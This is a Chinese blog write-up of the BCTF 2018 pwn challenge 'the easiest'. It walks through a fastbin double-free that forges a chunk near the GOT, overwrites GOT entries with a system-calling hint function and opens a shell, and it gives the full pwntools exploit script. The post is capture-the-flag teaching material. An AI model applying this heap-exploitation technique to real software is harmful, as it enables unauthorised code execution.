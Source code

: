 ```yaml
---
layout:     post
title:      BCTF write up
subtitle:    pwn
date:       2018-12-7
author:     XT
header-img: img/post-bg-coffee.jpeg
catalog: 	 true
tags:
    - 比赛复盘
---
```



> BCTF

# the easiest

首先checksec，查看保护，没有pie保护，我们可以尝试写got表。

![1544151410259](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151410259.png)

总共有两个选择add，delete。

![1544151429146](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544151429146.png)

并且delete可以删除

我 们IDA中有一个hint函数，因为我们看到got表有system所以，找一下，就找到了！

![1544155933667](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544155933667.png)

我们可以修改got表，然后跳到这里就可以了。

至于这个程序，随便看一下，就知道是个double free的问题！

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
```

这里没有报错，然后我们就可以构造任意的chunk进行写入。然后我们思考构造那个chunk呢？

我们可以看到got表区域，后4位为0x7f.

![1544158629895](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158629895.png)

所以可以伪造这个chunk，然后进行got表的修改。

```python
free(1)
free(2)
free(1)
pause()
```

free3次然后malloc把第一块的值写为我们伪造的块的地址，然后malloc两次，我们的fasbin就指向了我们伪造的chunk，这个时候如果再malloc就可以修改got表了。

```python
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")######此时指向的就是我们伪造的chunk了
add(4,0x68,payload)
```

![1544158909167](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544158909167.png)

![1544159354143](https://raw.githubusercontent.com/xineting/xineting.github.io/master/img/1544159354143.png)

可见我们已经修改成功，接着就是scanf的got调用，接着就getshell了

脚本如图

```python
#coding:utf8
from pwn import *
import sys

def add(id,size,content):
        p.sendlineafter("2 delete","1")
        p.sendlineafter("(0-11):",str(id))
        p.sendlineafter("Length:",str(size))
        p.sendlineafter("C:",content)

def free(id):
        p.sendlineafter("2 delete","2")
        p.sendlineafter("(0-11):",str(id))

def debugf():
        gdb.attach(p,"b *0x400D38")


context.log_level = "debug"
context.terminal = ["tmux","splitw","-v"]
p=process("./1")
elf=ELF("./1")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
add(1,100,"aaaaaaaaaaaaaaaaaaaaaaaaa")

add(2,100,"bbbbbbbbbbbbbbbbbbbbbbbb")

if sys.argv[1]=="y":
         debugf()

free(1)
free(2)
free(1)
pause()
add(1,0x68,p64(0x602045))
add(2,0x68,"hh")
payload = '\x00\x00\x00' + p64(0x400946) * 6
add(3,0x68,"hhh")

add(4,0x68,payload)
p.interactive()
```

